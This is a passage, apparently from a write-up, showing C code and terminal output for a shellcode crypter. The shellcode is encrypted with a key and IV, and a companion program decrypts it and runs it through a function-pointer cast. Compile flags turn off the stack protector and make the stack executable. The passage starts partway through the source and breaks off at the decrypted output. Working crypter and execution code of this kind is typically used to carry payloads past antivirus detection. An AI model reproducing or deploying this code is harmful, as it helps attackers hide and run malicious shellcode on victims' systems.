 ```c

    affichage(origin, length, "decrypted");
    printf("\n[+] Shellcode executing ...");
	
    // Execute the decrypted shellcode
    exec(origin);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

}

void exec(unsigned char* shellcode)
{
	printf("\n[+] Shellcode executing ...");
	  int (*ret)() = (int(*)())shellcode;
	  ret();

}
```



## Result ##

```c

./encrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] crypted Shellcode:
\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34
+\x89\x0b\x96\x6f\x19\x48\x4a\xda

// we paste the crypted shellcode into decrypt.c
xophidia@xophidia-VirtualBox:~/Téléchargements$ vim decrypt.c
// then we compile
xophidia@xophidia-VirtualBox:~/Téléchargements$ gcc -fno-stack-protector -z execstack decrypt.c -o decrypt -lssl -lcrypto
// and execute

./decrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] decrypted Shellcode:
```